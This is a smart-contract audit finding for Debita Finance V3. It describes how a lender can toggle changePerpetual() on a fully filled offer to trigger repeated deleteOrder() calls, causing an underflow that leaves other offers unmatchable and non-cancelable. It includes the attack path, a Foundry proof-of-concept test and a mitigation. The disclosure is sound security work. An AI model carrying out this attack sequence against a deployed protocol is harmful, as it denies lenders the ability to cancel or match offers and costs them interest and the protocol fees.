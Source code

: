 Mini Tawny Whale

High

# A lender can repeatedly change the perpetual status of a fully filled offer, making other offers unmatchable and non-cancelable.

### Summary

[DLOImplementation::changePerpetual()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/1465ba6884c4cc44f7fc28e51f792db346ab1e33/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L178-L188) changes the perpetual status to the `bool` value of the given parameter. However, when the perpetual status is set to `false`, the lending offer remains marked as active.
This allows `DLOFactory::deleteOrder()` to be called multiple times for the same offer. 

As a result, other offers will be unmatchable and non-cancelable because `DLOFactory::deleteOrder()` reverts due to underflow error.

### Root Cause

In `DebitaLendOffer-Implementation:184`, the lending offer is not marked as inactive when the perpetual status is set to `false` for a fully filled offer.

### Internal pre-conditions

1. A lending offer with perpetual status `true` needs to be fully filled.

### External pre-conditions

None.

### Attack Path

1. The owner of the fully filled lending offer calls `DLOImplementation::changePerpetual()` to change the perpetual status to `false`. This causes `DLOFactory::deleteOrder()` to be executed to delete the offer.
2. The owner calls `DLOImplementation::changePerpetual()` to change the perpetual status to `true`.
3. He will repeat steps 1 and 2 until the call reverts due to underflow. Whenever a new lending offer is created, they repeat the two steps again.
3. Any attempt to cancel a lending offer or match a non-perpetual lending offer, making it fully filled, will revert because further calls to `DLOFactory::deleteOrder()` also revert.

### Impact

Non-perpetual lending offers cannot be matched if doing so would cause them to become fully filled. As a result, the protocol loses fees because funds cannot be matched, even when there are sufficient compatible borrow offers. Furthermore, lenders miss out on the interest they could earn when their funds are filled.

Additionally, lending offers cannot be canceled. This forces lenders to accept matches, even if they intended to cancel their offers beforehand.

### PoC

The following should be added to `BasicDebitaAggregator.t.sol`:

```solidity
DLOImplementation public SecondLendOrder;
DLOImplementation public ThirdLendOrder;
DLOImplementation public FourthLendOrder;
DBOImplementation public SecondBorrowOrder;
address secondLender = 0x5C235931376b21341fA00d8A606e498e1059eCc0;
```

Furthermore, an import needs to be changed in `BasicDebitaAggregator.t.sol`:
```diff
- import {Test, console} from "forge-std/Test.sol";
+ import {Test, console, stdError} from "forge-std/Test.sol";
```

Append the following to `setUp()` in `BasicDebitaAggregator.t.sol`:

```solidity
    vm.startPrank(secondLender);
    deal(AERO, address(secondLender), 1000e18, false);
    IERC20(AERO).approve(address(DLOFactoryContract), 1000e18);
    ratio[0] = 1e18;
    address SecondlendOrderAddress = DLOFactoryContract.createLendOrder(
        false,
        oraclesActivated,
        false,
        ltvs,
        1000,
        8640000,
        86400,
        acceptedPrinciples,
        AERO,
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );
    vm.stopPrank();

    ratio[0] = 1e18;
    address ThirdlendOrderAddress = DLOFactoryContract.createLendOrder(
        false,
        oraclesActivated,
        false,
        ltvs,
        1000,
        8640000,
        86400,
        acceptedPrinciples,
        AERO,
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );

    ratio[0] = 1e18;
    address FourthlendOrderAddress = DLOFactoryContract.createLendOrder(
        false,
        oraclesActivated,
        false,
        ltvs,
        1000,
        8640000,
        86400,
        acceptedPrinciples,
        AERO,
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );

    address SecondborrowOrderAddress = DBOFactoryContract.createBorrowOrder(
        oraclesActivated,
        ltvs,
        1000,
        864000,
        acceptedPrinciples,
        AERO,
        false,
        0,
        oraclesPrinciples,
        ratio,
        address(0x0),
        10e18
    );

    SecondLendOrder = DLOImplementation(SecondlendOrderAddress);
    ThirdLendOrder = DLOImplementation(ThirdlendOrderAddress);
    FourthLendOrder = DLOImplementation(FourthlendOrderAddress);
    SecondBorrowOrder = DBOImplementation(SecondborrowOrderAddress);
```


Add the following test to `BasicDebitaAggregator.t.sol` (it only works when four lend orders have been created):

```solidity
function testChangePerpetualCausesDeleteRevert() public {
        
    address[] memory lendOrders = allDynamicData.getDynamicAddressArray(2);
    uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
        2
    );
    uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
        .getDynamicUintArray(2);
    address[] memory principles = allDynamicData.getDynamicAddressArray(1);
    uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
        .getDynamicUintArray(2);
    uint[] memory indexForCollateral_LendOrder = allDynamicData
        .getDynamicUintArray(2);
    uint[] memory indexPrinciple_LendOrder = allDynamicData
        .getDynamicUintArray(2);
            

    vm.startPrank(secondLender);
    SecondLendOrder.changePerpetual(true);
    vm.stopPrank();
    
    lendOrders[0] = address(LendOrder);
    lendAmountPerOrder[0] = 5e18;
    porcentageOfRatioPerLendOrder[0] = 10000;
    principles[0] = AERO;

    lendOrders[1] = address(SecondLendOrder);
    lendAmountPerOrder[1] = 5e18;
    porcentageOfRatioPerLendOrder[1] = 10000;

    address loan = DebitaV3AggregatorContract.matchOffersV3(
        lendOrders,
        lendAmountPerOrder,
        porcentageOfRatioPerLendOrder,
        address(BorrowOrder),
        principles,
        indexForPrinciple_BorrowOrder,
        indexForCollateral_LendOrder,
        indexPrinciple_LendOrder
    );
        
    vm.startPrank(secondLender);
        
    SecondLendOrder.changePerpetual(false);
    SecondLendOrder.changePerpetual(false);
    SecondLendOrder.changePerpetual(false);
        
    vm.stopPrank();
        
    vm.expectRevert(stdError.arithmeticError);
    ThirdLendOrder.cancelOffer();

    vm.expectRevert(stdError.arithmeticError);
    FourthLendOrder.cancelOffer();

    lendOrders[0] = address(ThirdLendOrder);
    lendAmountPerOrder[0] = 5e18;
    porcentageOfRatioPerLendOrder[0] = 10000;
    principles[0] = AERO;

    lendOrders[1] = address(FourthLendOrder);
    lendAmountPerOrder[1] = 5e18;
    porcentageOfRatioPerLendOrder[1] = 10000;

    vm.expectRevert(stdError.arithmeticError);
    address Secondloan = DebitaV3AggregatorContract.matchOffersV3(
        lendOrders,
        lendAmountPerOrder,
        porcentageOfRatioPerLendOrder,
        address(SecondBorrowOrder),
        principles,
        indexForPrinciple_BorrowOrder,
        indexForCollateral_LendOrder,
        indexPrinciple_LendOrder
    );
}
```

### Mitigation

Consider marking fully filled lending offers as inactive when their perpetual status is set to `false`. 